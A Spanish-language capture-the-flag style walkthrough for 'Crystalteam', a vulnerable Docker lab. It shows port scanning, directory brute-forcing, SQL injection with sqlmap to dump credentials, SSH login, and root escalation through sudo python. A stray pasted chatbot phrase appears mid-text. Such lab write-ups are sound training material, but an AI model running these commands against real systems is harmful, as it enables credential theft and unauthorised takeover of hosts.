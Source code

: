 # 🖥️ **Máquina: Crystalteam**  

🔹 **Dificultad:** Medio

📌 **Descripción:**  
Crystalteam es una máquina vulnerable basada en Docker, diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Su enfoque principal es la identificación y explotación de vulnerabilidades en consultas MySQL para obtener acceso no autorizado a la base de datos y extraer información sensible.  

📢 **Agradecimientos:** Gracias a [DockerLabs](https://dockerlabs.es) por proporcionar *scripts* y bases que facilitaron la creación de esta máquina.  

📌 **Nota de solución:**
Para encontrar el directorio oculto, es necesario transformar la **primera letra de cada palabra del diccionario `rockyou.txt` a mayúscula**. Esto se debe a que el directorio en el servidor tiene un formato que comienza con mayúscula (por ejemplo, `/Certificacion` en lugar de `/certificacion`).
Una vez modificado el diccionario, puedes usarlo con `gobuster` de la siguiente manera:

```bash
gobuster dir -u http://172.17.0.2/ -w rockyou_capitalized.txt -t 20
```

---

## 🎯 **Objetivo**  
- Identificar y explotar fallos de seguridad en la página web **Certificación** mediante **inyección SQL**.  
- Comprender el impacto real de estas vulnerabilidades y cómo prevenirlas.  

---

## 🚀 **Despliegue de la Máquina**  

### 1️⃣ **Descargar el Archivo**  
Descarga el archivo desde el siguiente enlace:  

🔗 [Crystalteam Docker Machine](https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing)  

### 2️⃣ **Ejecutar el Despliegue Automático**  
Ejecuta el siguiente comando para desplegar la máquina en Docker:  

```bash
bash auto_deploy.sh crystalteam.tar
```
Una vez iniciada, comprueba la conexión con:  

```bash
ping -c4 172.17.0.2
```

![Máquina Backend](/Img/Docker.jpeg)

### 3️⃣ **Reconocimiento Inicial con Nmap**  
Realizamos un escaneo de puertos con:  

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Extraemos los puertos abiertos con:  

```bash
extracPorts allPorts.txt
```

Luego, realizamos un análisis detallado de los servicios en ejecución:  

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

📌 **Resultado:** Identificamos el puerto **22 (SSH)** y el **80 (HTTP)**, lo que nos sugiere que hay un sitio web corriendo.  

![Máquina Backend](/Img/Puertos.jpeg)

---

## 🔍 **Enumeración del Sitio Web**  

Editamos el archivo de *hosts* para facilitar el acceso:  

```bash
nano /etc/hosts
```

Recopilamos información con **WhatWeb** para detectar tecnologías usadas:  

```bash
whatweb 172.17.0.2
```

![Máquina Backend](/Img/whatweb.jpeg)

Al ingresar a la página web, encontramos un **formulario de inicio de sesión y registro**.  

![Máquina Backend](/Img/index.jpeg)  

![Máquina Backend](/Img/ad.jpeg)  

Para descubrir directorios ocultos, utilizamos **Gobuster**:  

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
```

Para buscar subdominios:  

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```



📌 **Resultado:** No se encontraron subdominios o directorios relevantes,.  
Aquí tienes una forma clara y bien redactada de expresar esa **nota de solución**:

---

![Máquina Backend](/Img/domi.jpeg)  

![Máquina Backend](/Img/php.jpeg)  

---

## 🔥 **Explotación - Inyección SQL**  

Probamos inyección SQL en el campo de usuario con:  

```sql
admin'
```

📌 **Resultado:** Se genera un **error de base de datos**, confirmando la vulnerabilidad.  

![Máquina Backend](/Img/in.jpeg)  

![Máquina Backend](/Img/error.jpeg)  

Usamos **Burp Suite** para interceptar la solicitud y guardarla en un archivo `.req`.  

Ejecutamos **SQLMap** para extraer datos sensibles:  

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```

![Máquina Backend](/Img/sql.jpeg)  

📌 **Resultado:** Encontramos una base de datos llamada **inicio**, con nombres de usuario y contraseñas.  

![Máquina Backend](/Img/Tabla.jpeg)  

Usamos las credenciales para intentar acceder por **SSH**:  

```bash
ssh alejandro@172.17.0.2 -p 22
```

📌 **Acceso concedido como usuario "alejandro".**  

![Máquina Backend](/Img/ssh.jpeg)  

---

## 🚀 **Escalada de Privilegios**  

Listamos permisos con:  

```bash
sudo -l | grep python
```

📌 **Resultado:** Python puede ejecutar comandos como **root**.  

Ejecutamos el siguiente comando para leer el archivo `redflag.txt`:  

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

![Máquina Backend](/Img/root.jpeg)  

📌 **Resultado:** ¡Hemos obtenido la *redflag*! 🎉  

Para verificar acceso como *root*, ejecutamos:  

```bash
su -
```

![Máquina Backend](/Img/ter.jpeg)  

📌 **Resultado:** **Acceso total a la máquina.**  

---

## 🏆 **Conclusión**  

🔹 **Vulnerabilidades explotadas:**  
✅ Inyección SQL (SQLi) para obtener credenciales.  
✅ Uso de credenciales expuestas para acceder por SSH.  
✅ Escalada de privilegios mediante Python.  

🔹 **Lecciones aprendidas:**  
🚨 **No** concatenar consultas SQL sin sanitizar entradas.  
🔐 Implementar **hashing de contraseñas** en la base de datos.  
📛 Restringir permisos innecesarios a usuarios del sistema.  

💡 **¿Te gustaría probar esta máquina?** Descárgala y cuéntame tu experiencia. 🚀  

